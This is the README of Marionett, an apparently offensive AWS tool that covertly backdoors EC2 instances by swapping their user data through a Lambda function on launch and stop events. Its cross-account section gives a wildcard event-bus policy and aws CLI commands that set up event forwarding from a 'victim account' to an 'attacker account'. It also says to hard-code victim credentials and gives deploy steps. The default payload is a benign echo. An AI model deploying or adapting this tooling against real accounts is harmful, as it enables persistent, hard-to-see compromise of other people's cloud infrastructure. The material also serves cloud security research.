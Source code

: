 # Marionett

Marionett is an example of an automated lambda function that runs that swaps out user data on RunInstance and 
EC2 Instance State Change events. It  exists as an example of how an attacker could semi-covertly backdoor EC2 instances
passively on instance change events or actively on creation. The API calls will stand out, but from the user's
perspective when in passive mode there will be no obvious changes to the instance, in active mode the instance is simply
taking longer to start up (although may cause issues with certain provisioning tools). This is a well known attack,
only change to what I've seen elsewhere is adding Event Bridge and Lambda.

In general this is an improved version of [UserDataSwap](https://github.com/RyanJarv/UserDataSwap).

## Active vs Passive

Marionett can run in either active or passive mode, passive is generally safer and less likely to interfere with
infrastructure provisioning however requires the instance to be shutdown through some other means, likely by the end
user. When running in the active mode Marionett will shut down the node shortly after it is initially created with
the RunInstances API, by default this is immediately however can be configured to wait up to 900 seconds after creation
to work around issues that you may run into with provisioning tools.

## Config
The config is located at `chalicelib/config.yaml` and should be edited before deploy.
### Options
* dynamodb_table
  * Name of the DynamoDB table to create to track instance state.
* sqs_queue
  * Name of the SQSQueue table to create to queue restart events when using active mode.
* active_mode
  * `True` or `False`, enables active mode.
* restart_delay
  * Used when active_mode is set to `True`. 
  * Number of seconds to wait after the RunInstances API is called before restarting the instance.
    * To work around terraform SSH provisioning complaining about an incorrect instance state this can be set to 9. 
      However, this is only useful if an Elastic IP or IPv6 address is used to connect to the instance, otherwise the
      IP will change on restart and SSH provisioning will fail.
    * To work around terraform SSH provisioning when an ElasticIP address is not used you can set this to a higher number
      to have it wait till provisioning is complete before restarting. Essentially this needs to be a best guess since
      we don't have any indication when this may be done.
* user_data
  * Our user data we want to set on the instance temporarily.
  * This will get reverted to the original metadata at the next instance stopped event.
  * `bootcmd` will run at every startup regardless of if cloud-init has run previously.

### Default Settings
```
---
dynamodb_table: UserDataSwap
sqs_queue: user-data-swap-restart-delay
active_mode: False
restart_delay: 0
user_data: |-
#cloud-config

bootcmd:
- echo HELLO FROM USER DATA SCRIPT | tee /msg > /dev/kmsg
```

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful
it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only
requires `events:PutRule` and `events:PutTargets` permissions in the victim account. I'll likely add support for this in
the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the Marionett account,
probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one
of the ways to get override the lack of permissions assigned to the the put-event rule in the victim account. Doing it
this way avoids the need for `iam:PassRole` permissions in the victim account to create the event bus rules that forward
the events to the Marionette account. It may be possible to reduce these permissions, I need to do more testing here
though.

* In the Marionett account:
  * In the Marionett lambda account create a new event bus named `run-instance-trigger` and give it the following
    resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up the following rule to trigger the Marionett function with the event config below.
     ```
      {
        "source": ["aws.ec2"],
        "detail-type": ["EC2 Instance State-change Notification"],
        "detail": {
          "state": ["stopped"]
        }
      }
     ```
  * If active mode is used add a second rule with the following.
     ```
     {
       "source": ["aws.ec2"],
       "detail": {
         "eventSource": ["ec2.amazonaws.com"],
         "eventName": ["RunInstances"]
       }
     }
     ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule \
      --name run-instance-trigger \
      --state ENABLED \
      --event-bus-name default \
      --event-pattern '{
          "source": ["aws.ec2"],
          "detail": {      
            "eventSource": ["ec2.amazonaws.com"],
            "eventName": ["RunInstances"]
          }
        }'
    ```
  * Add a target to forward to the event-bus in the Marionett account:
    ```
    aws events put-targets --rule run-instance-trigger \
      --event-bus-name default \
      --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the Marionett triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack (Update: AWS now prevents this in most accounts) with different pros/cons take a look at 
[EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on
[my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Requirements

* AWS CLI already configured with Administrator permission for the deployment account (which isn't necessarily the
  targeted account, see the Cross Account section for more info).
* Recent version of [Python](https://www.python.org/)
* [Chalice](https://github.com/aws/chalice)
* [AWS CLI](https://pypi.org/project/awscli/)

## Setup process

### Installing dependencies & building the target 

```shell
python3 -m venv venv
source venv/bin/activate
pip install chalice boto3
```

## Deployment

```bash
make deploy/infra
```

## Wish List
* Target individual instances or tags

### Testing

TODO
